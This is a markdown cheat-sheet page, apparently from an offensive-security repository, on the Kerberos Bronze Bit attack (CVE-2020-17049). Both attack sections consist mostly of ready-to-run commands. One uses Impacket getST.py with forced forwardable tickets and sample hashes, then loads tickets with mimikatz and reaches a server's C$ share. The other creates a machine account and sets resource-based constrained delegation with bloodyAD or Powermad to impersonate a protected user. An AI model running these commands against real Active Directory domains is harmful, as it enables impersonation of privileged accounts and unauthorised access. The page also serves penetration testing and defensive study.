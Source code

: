 # Kerberos - Bronze Bit

CVE-2020-17049

> An attacker can impersonate users which are not allowed to be delegated. This includes members of the **Protected Users** group and any other users explicitly configured as **sensitive and cannot be delegated**.

> Patch is out on November 10, 2020, DC are most likely vulnerable until [February 2021](https://support.microsoft.com/en-us/help/4598347/managing-deployment-of-kerberos-s4u-changes-for-cve-2020-17049).

:warning: Patched Error Message : `[-] Kerberos SessionError: KRB_AP_ERR_MODIFIED(Message stream modified)`

Requirements:
* Service account's password hash 
* Service account's with `Constrained Delegation` or `Resource Based Constrained Delegation`
* [Impacket PR #1013](https://github.com/SecureAuthCorp/impacket/pull/1013) 

**Attack #1** - Bypass the `Trust this user for delegation to specified services only – Use Kerberos only` protection and impersonate a user who is protected from delegation.

```powershell
# forwardable flag is only protected by the ticket encryption which uses the service account's password 
$ getST.py -spn cifs/Service2.test.local -impersonate Administrator -hashes <LM:NTLM hash> -aesKey <AES hash> test.local/Service1 -force-forwardable -dc-ip <Domain controller> # -> Forwardable

$ getST.py -spn cifs/Service2.test.local -impersonate User2 -hashes aad3b435b51404eeaad3b435b51404ee:7c1673f58e7794c77dead3174b58b68f -aesKey 4ffe0c458ef7196e4991229b0e1c4a11129282afb117b02dc2f38f0312fc84b4 test.local/Service1 -force-forwardable

# Load the ticket
.\mimikatz\mimikatz.exe "kerberos::ptc User2.ccache" exit

# Access "c$"
ls \\service2.test.local\c$
```

**Attack #2** - Write Permissions to one or more objects in the AD
* Windows/Linux:
    ```ps1
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d test.local --host 10.100.10.5 add computer AttackerService 'AttackerServicePassword'
    bloodyAD --host 10.1.0.4 -u user -p 'totoTOTOtoto1234*' -d test.local add rbcd 'Service2$' 'AttackerService$'

    # Execute the attack
    getST.py -spn cifs/Service2.test.local -impersonate User2 -dc-ip 10.100.10.5 -force-forwardable 'test.local/AttackerService$:AttackerServicePassword'
    ```
* Windows only:
    ```powershell
    # Create a new machine account
    Import-Module .\Powermad\powermad.ps1
    New-MachineAccount -MachineAccount AttackerService -Password $(ConvertTo-SecureString 'AttackerServicePassword' -AsPlainText -Force)
    .\mimikatz\mimikatz.exe "kerberos::hash /password:AttackerServicePassword /user:AttackerService /domain:test.local" exit

    # Set PrincipalsAllowedToDelegateToAccount
    Install-WindowsFeature RSAT-AD-PowerShell
    Import-Module ActiveDirectory
    Get-ADComputer AttackerService
    Set-ADComputer Service2 -PrincipalsAllowedToDelegateToAccount AttackerService$
    Get-ADComputer Service2 -Properties PrincipalsAllowedToDelegateToAccount

    # Execute the attack
    python .\impacket\examples\getST.py -spn cifs/Service2.test.local -impersonate User2 -hashes 830f8df592f48bc036ac79a2bb8036c5:830f8df592f48bc036ac79a2bb8036c5 -aesKey 2a62271bdc6226c1106c1ed8dcb554cbf46fb99dda304c472569218c125d9ffc test.local/AttackerService -force-forwardable

    # Load the ticket
    .\mimikatz\mimikatz.exe "kerberos::ptc User2.ccache" exit | Out-Null
    ```


## References

* [CVE-2020-17049: Kerberos Bronze Bit Attack – Practical Exploitation - Jake Karnes - December 8th, 2020](https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-attack/)
* [CVE-2020-17049: Kerberos Bronze Bit Attack – Theory - Jake Karnes - December 8th, 2020](https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-theory/)
* [Kerberos Bronze Bit Attack (CVE-2020-17049) Scenarios to Potentially Compromise Active Directory](https://www.hub.trimarcsecurity.com/post/leveraging-the-kerberos-bronze-bit-attack-cve-2020-17049-scenarios-to-compromise-active-directory)